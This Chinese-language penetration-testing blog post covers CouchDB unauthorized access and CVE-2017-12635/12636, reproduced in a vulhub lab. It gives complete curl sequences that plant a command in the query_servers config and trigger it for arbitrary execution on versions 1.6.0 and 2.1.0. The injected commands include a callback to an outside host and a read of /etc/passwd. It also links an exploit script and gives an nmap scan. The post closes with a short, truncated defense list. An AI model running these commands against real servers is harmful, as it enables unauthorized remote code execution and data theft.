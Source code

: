```yaml
---
title: CouchDB未授权访问&命令执行
top: false
cover: false
categories:
- 渗透测试
tags:
- CouchDB
- 未授权访问
- 命令执行
- CVE-2017-12635
- CVE-2017-12636
abbrlink: 78
date: 2020-05-26 10:20:43
keywords:
summary:
img:
password:
---
```


#### 漏洞简介以及危害
Apache CouchDB是一个开源数据库,专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式,JavaScript作为查询语言,MapReduce和HTTP作为API的NoSQL数据库。
应用广广泛,如BBC用在其动态内容展示平台,Credit Suisse用在其内部的商品部⻔的市场框架,Meebo,用在其社交平台(web和应用程序),默认会在`5984端口`开放Restful的API接口口,如果使用
SSL的话就会监听在`6984端口`,用于数据库的管理功能。其HTTP Server默认开启时没有进行行行验证,而且绑定在0.0.0.0,所有用户均可通过API访问导致未授权访问。
在官方方配置文文档中对HTTP Server的配置有WWW-Authenticate:Set this option to trigger
basic-auth popup on unauthorized requests,但是很多用户都没有这么配置,导致漏洞产生。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1


#### 漏洞环境
vulnhub

#### 漏洞利用
CVE-2017-12636是需要登录用户方可触发，如果不知道目标管理员密码，可以利CVE-2017-12635[CVE-017-12635](https://blog.csdn.net/JiangBuLiu/article/details/94027581)先【增加一个管理员用户】，如果无须帐号密码，就可通过未授权访问进行命令执行
同样，记得在Burp的拦截端口添加一个5984


进入环境，并启动
```bash
cd couchdb/CVE-2017-12636/
docker-compose up -d
```


###### 未授权访问测试
```bash
curl http://192.168.0.100:5984
curl http://192.168.0.100:5984/_config
```

<img src="https://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE1.png"></img>

###### 任意命令执行漏洞

```bash
# 本机python运行http服务(可以不运行这个步骤，这里只是做curl测试用的)
python -m SimpleHTTPServer 8888
```

1.6.0 下

```bash
#依次执行如下命令
curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '"curl http://192.168.0.105:8888/test.php"' # 这里可以执行任意命令
#curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '" cat /etc/passwd >> tmp/ext_passwd"' 
curl -X PUT 'http://192.168.0.100:5984/vultest'    # 添加一个Database和Document
curl -X PUT 'http://192.168.0.100:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://192.168.0.100:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'      # 在这个Database里查询，将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行
```

2.1.0 下
```bash
# 2.1.0中修改了1.6.0用到的两个API
# Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。我们带上账号密码访问/_membership即可
curl http://<your-ip>:5984/_membership

# 利用(跟1.6.0类似)
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/CVE-2017-12636_is_success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'    #先增加一个Database和一个Document
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
#Couchdb 2.x删除了_temp_view，所以我们为了触发query_servers中定义的命令，需要添加一个_view
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
#增加_view的同时即触发了query_servers中的命令。
```

<img src="https://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE2.png"></img>

exp地址

```
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
```

**nmap扫描**

```bash
nmap -p 5984 --script "couchdb-stats.nse" <target_ip>
```


#### 防御手段
- 绑定指定ip
- 设置访问密
